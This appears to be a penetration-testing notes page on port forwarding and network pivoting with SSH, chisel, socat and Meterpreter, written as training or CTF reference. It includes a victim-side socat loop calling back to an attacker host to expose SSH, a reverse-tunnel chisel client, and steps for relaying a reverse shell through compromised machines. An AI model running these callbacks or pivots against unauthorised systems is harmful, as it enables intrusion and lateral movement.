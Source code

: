 # Port Forwarding

## SSH

### Locally

Example: we want to connect to the port 1025 on the remote machine "delivery" on our port 1337.

```
ssh -L 1337:localhost:1025 maildeliverer@delivery
```

Example: we want to access the port 1025 on the remote machine "pivotable" through the machine "delivery" on our machine on port 1337.&#x20;

```
ssh -L 1337:pivotable:1025 maildeliverer@delivery
```

### Remotely

Example: SSH to my kali, opens up port 1025 on the victim's localhost, to be accessible at port 1337 on kali.

```
ssh -R 1337:localhost:1025 kali@mykali
```

### Dynamically

This creates a SOCKS proxy that allows you to reach IP addresses that are in the same network as a box you can SSH to.&#x20;

Run the following commands on the box you want to proxy through:

```
# in an ssh session:
~C
-D 1080
```

Then, on your machine, make sure `/etc/proxychains.conf` has:

```
socks5 127.0.0.1 1080
```

Then you can use the `proxychains` command in front of your other commands to proxy through the machine. For example, this command curls the IP address 192.168.122.4 through the proxied machine:

```
proxychains curl 192.168.122.4
```

To use that with burp, go to "User Options", select "use socks proxy", and configure it to go through localhost on port 1080.

### Two Hops

This section explains how to forward a reverse shell gained in a second hacked box through a first hacked box to kali.

Run the following commands on the first hacked machine:

```
# in an ssh session:
~C

# first part is for the hacked machine
# second part is for kali
-R 127.0.0.1:9001:127.0.0.1:9001 
```

**Question:** Why can't we just specify the private IP address in the above command instead of 127.0.0.1? In that case, we wouldn't have to redirect with socat later on.

You can confirm whether it worked by running:

```
netstat -alnp | grep 9001
```

This will send everything from the hacked machine's localhost:9001 to kali:9001. However, **it will not send anything from the hacked machine's private IP address** to kali.&#x20;

You can use socat to redirect traffic from the second hacked machine's private IP address to its localhost, so that the traffic could be forwarded to kali.&#x20;

In this example, the first hacked box's IP address is 192.168.122.1:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

After you have set that up, you can run a reverse shell on the second hacked machine and have it connect to port 9001 on the first hacked machine. That connection will be forwarded to port 9001 on your kali. **Don't forget to run a listener on port 9001** in kali to catch the connection.

## Chisel

This will allow you to access port 4505 on the target's localhost from port 4505 on your own machine.

```
# Run on kali
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse

# Run on target machine
./chisel_1.7.6_linux_amd64 client YOUR_IP_ADDRESS:12312 R:4505:127.0.0.1:4505
```

## Socat

### Same Machine Redirection

You can use socat for redirecting a port to another port on the same machine.

For example, this command redirects port 9001 on the IP address 192.168.122.1 to localhost:9001 **on that same machine**:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

### **Access Remote Port Through Local Port**

{% embed url="https://book.hacktricks.xyz/tunneling-and-port-forwarding#remote-port-2-port" %}

**Warning**: For some strange reason, when I used this to forward a web port, then I was able to do curl requests to this, but not gobuster or wfuzz.

```
# On attacker's machine
# Redirect port 2222 to port 443 in localhost
sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

# On victim machine
# Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
while true; do socat TCP4:ATTACKER_IP_ADDRESS_HERE:443 TCP4:127.0.0.1:22 ; done 
```

After following the above example, your port 2222 will be forwarded to a victim's port 22. So you can SSH to the victim like this:

```
ssh localhost -p 2222
```

## Meterpreter Port Forwarding

Meterpreter pivoting - use autoroute.

{% embed url="https://www.offensive-security.com/metasploit-unleashed/pivoting/" %}

```
run autoroute -s 10.1.13.0/24
```

Flags:

* `-s`: The subnet you want access to

Portfwd is a command you can use for port forwarding on meterpreter

{% embed url="https://www.offensive-security.com/metasploit-unleashed/portfwd/" %}

\
